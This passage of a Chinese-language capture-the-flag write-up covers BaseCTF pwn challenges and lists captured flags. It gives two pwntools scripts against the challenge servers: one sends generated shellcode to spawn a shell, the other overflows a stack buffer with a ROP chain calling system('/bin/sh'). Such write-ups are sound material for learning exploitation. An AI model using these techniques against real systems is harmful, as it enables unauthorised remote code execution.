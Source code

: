 ![](../../../images/444a0f7922e626625231400fbecfb4d1.png)

:::info
BaseCTF{bb1fe678-adc8-41cc-b510-bd501e6defbc}

:::



### shellcode_level0
64位。

![](../../../images/8d4fa550abf4d84954fd7620965f7454.png)

直接 shellcraft 一把梭。

```python
from pwn import *
context.arch = "amd64"
host = remote("challenge.basectf.fun",37446)
payload=asm(shellcraft.sh())
host.sendline(payload)
host.interactive()
```

![](../../../images/286781aee54e1489762dae2c731e059e.png)

:::info
BaseCTF{75cb5065-f358-41a4-b229-c36b2c40d059}

:::



### 我把她丢了
64位。

![](../../../images/b59e6f1b4299c537617bb0075968042c.png)

存在栈溢出。

![](../../../images/8812999cf443c1f2770da651e408b2bb.png)

有 system。

![](../../../images/4a8bc6588662e8a080bffc7ef81ecfd6.png)

有 /bin/sh，鉴定为模板题。

```python
from pwn import*
host = remote("challenge.basectf.fun",28782)
sh = 0x402008
sys = 0x401080
rdi = 0x401196
ret = 0x40101a
payload = b'A'*112 + b'B'*8 + p64(rdi) + p64(sh) + p64(ret) + p64(sys)
host.sendline(payload)
host.interactive()
```
